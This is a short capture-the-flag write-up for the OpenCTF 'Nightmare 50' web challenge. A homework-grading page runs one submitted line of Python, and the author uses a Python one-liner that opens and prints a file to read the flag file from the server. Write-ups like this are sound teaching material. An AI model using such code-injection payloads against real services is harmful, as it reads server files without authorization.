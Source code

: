 ```yaml
---
title: "OpenCTF : Nightmare 50"
date: 2025-03-19
categories: 
  - "general"
---
```


**Category:** Web

**Points:** 50

**Description:**

```
Automated home work scoring my ass. https://shades-of-nightmare.openctf.com/nzpoixyucvkjwnerntasdfascdvasdfqwerqwe/nightmare-50/
```

When connecting to this website in my browser, I receive the following prompt:

```
Welcome to Doctor Professor Wilson's Python 101!
Lesson 1: hello world
Enter homework for grading:
```

So it looks like this will execute the Python code you provide. So I test it with the following:

```
Welcome to Doctor Professor Wilson's Python 101!
Lesson 1: hello world
Enter homework for grading:
print('Hello world')
Hello world
```

And then it immediately closes the connection. So it looks like it only allows a single line of Python code.

I then decide to try and dump the working directory file contents. This can be done with `os.listdir('.')`, however, this would require a call to `import os`. Unfortunately, it appears some or all imports are blocked, as an error was returned. So instead, I decide to just guess that there exists a file either called `flag.txt` or `flag` in the working directory, and luckily, opening and reading files doesn’t require any imports. So I construct a one-liner to do just that: `print(open('flag.txt','r').read())`.

```
Welcome to Doctor Professor Wilson's Python 101!
Lesson 1: hello world
Enter homework for grading:
print(open('flag.txt','r').read())
ThisIsAVeryFl@ggyFlag
```

# Flag

**ThisIsAVeryFl@ggyFlag**
